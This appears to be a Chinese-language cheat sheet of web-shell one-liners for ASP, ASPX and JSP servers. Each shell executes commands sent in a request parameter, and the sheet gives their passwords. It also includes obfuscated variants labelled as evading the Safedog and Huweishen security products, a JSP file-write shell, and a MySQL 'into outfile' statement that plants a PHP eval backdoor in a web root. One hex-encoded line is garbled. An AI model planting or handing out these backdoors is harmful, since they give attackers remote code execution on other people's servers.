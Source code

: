 asp 一句话
~~~

<%execute(request(“cmd”))%>
<%execute request(“1”)%>
ASP一句话16进制：┼攠數畣整爠煥敵瑳∨≡┩愾 密码a
"%><%Eval(Request(chr(112)))%><%’ p


<%Y=request(“xindong”)%> <%execute(Y)%>


<%eval (eval(chr(114)+chr(101)+chr(113)+chr(117)+chr(101)+chr(115)+chr(116))(“xindong”))%>


<%eval""&(“e”&“v”&“a”&“l”&"("&“r”&“e”&“q”&“u”&“e”&“s”&“t”&"("&“0”&"-"&“2”&"-"&“5”&")"&")")%>（密码是-7）
~~~
### ASP过安全狗一句话
~~~

密码（pass）

<% %>

<%a=request(“zl”)%><%eval a%>
~~~
### ASPX系列
~~~

<%@ Page Language = Jscript %>
<%var/-/-/P/-/-/=/-/-/“e”+“v”+/-/-/
“a”+“l”+"("+“R”+“e”+/-/-/“q”+“u”+“e”/-/-/+“s”+“t”+
“[/-/-/0/-/-/-/-/-/2/-/-/-/-/-/5/-/-/]”+
“,”+"""+“u”+“n”+“s”/-/-/+“a”+“f”+“e”+"""+")";eval
(/-/-/P/-/-/,/-/-/“u”+“n”+“s”/-/-/+“a”+“f”+“e”/-/-/);%> 密码 -7


<%@ Page Language=“Jscript”%><%eval(Request.Item[“xindong”],“unsafe”);%>


密码是webadmin
~~~
### aspx一句话
~~~

<%@ Page Language=“Jscript” validateRequest=“false” %><%Response.Write(eval(Request.Item[“w”],“unsafe”));%>
~~~
### JSP
~~~

<%if(request.getParameter(“f”)!=null)(new java.io.FileOutputStream(application.getRealPath("/")+request.getParameter(“f”))).write(request.getParameter(“t”).getBytes());%>


select ‘<?php eval($_POST[cmd];?>’ into outfile ‘C:/Inetpub/wwwroot/mysql-php/1.php’
~~~
### 过护卫神的
<%E=request(“1”)%>abc
